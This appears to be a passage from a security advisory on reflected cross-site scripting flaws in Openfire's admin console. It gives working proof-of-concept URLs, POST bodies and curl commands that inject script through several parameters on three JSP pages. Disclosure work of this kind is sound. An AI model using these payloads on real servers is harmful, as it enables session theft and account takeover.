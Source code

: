#### *search* variable from *group-summary.jsp*

The following GET request exploit the XSS vulnerability:

```
http://OpenFireServerIP:9090/group-summary.jsp?search=test%22+onmouseover%3Dalert%28%27XSS%27%29+x%3D%22
```

The following curl command allows reproducing the attack against the Openfire *group-summary.jsp* page.

```
curl http://OpenFireServerIP:9090/group-summary.jsp?search=test%22+onmouseover%3Dalert%28%27XSS%27%29+x%3D%22 --cookie="JSESSIONID=XXX"
```


#### *maxTotalSize*, *maxFileSize*, *maxDays*, *logTimeout* variables from *audit-policy.jsp*

The following GET request exploit the XSS vulnerability:

```
http://OpenFireServerIP:9090/audit-policy.jsp?auditEnabled=false&logDir=%2Fopt%2Fopenfire%2Flogs&maxTotalSize=1000%22%3E%3Cscript%3Ealert%28%27XSS3%27%29%3C%2Fscript%3E&maxFileSize=10%22%3E%3Cscript%3Ealert%28%27XSS4%27%29%3C%2Fscript%3E&maxDays=-1%22%3E%3Cscript%3Ealert%28%27XSS5%27%29%3C%2Fscript%3E&logTimeout=120%22%3E%3Cscript%3Ealert%28%27XSS6%27%29%3C%2Fscript%3E&ignore=&update=Save+Settings
```

The following curl command allows reproducing the attack against the Openfire *audit-policy.jsp* page:

```
curl "http://OpenFireServerIP:9090/audit-policy.jsp?auditEnabled=false&logDir=%2Fopt%2Fopenfire%2Flogs&maxTotalSize=1000%22%3E%3Cscript%3Ealert%28%27XSS3%27%29%3C%2Fscript%3E&maxFileSize=10%22%3E%3Cscript%3Ealert%28%27XSS4%27%29%3C%2Fscript%3E&maxDays=-1%22%3E%3Cscript%3Ealert%28%27XSS5%27%29%3C%2Fscript%3E&logTimeout=120%22%3E%3Cscript%3Ealert%28%27XSS6%27%29%3C%2Fscript%3E&ignore=&update=Save+Settings" --cookie="JSESSIONID=XXX"
```

#### *passPhrase* variables from *import-keystore-certificate.jsp*

The following POST values exploit the XSS vulnerability:

```
passPhrase=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&privateKey=test&certificate=test&save=Save
```

The following curl command allows reproducing the attack against the Openfire *import-keystore-certificate.jsp* page.

```
curl http://OpenFireServerIP:9090/import-keystore-certificate.jsp --data="passPhrase=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&privateKey=test&certificate=test&save=Save" --cookie="JSESSIONID=XXX"
```
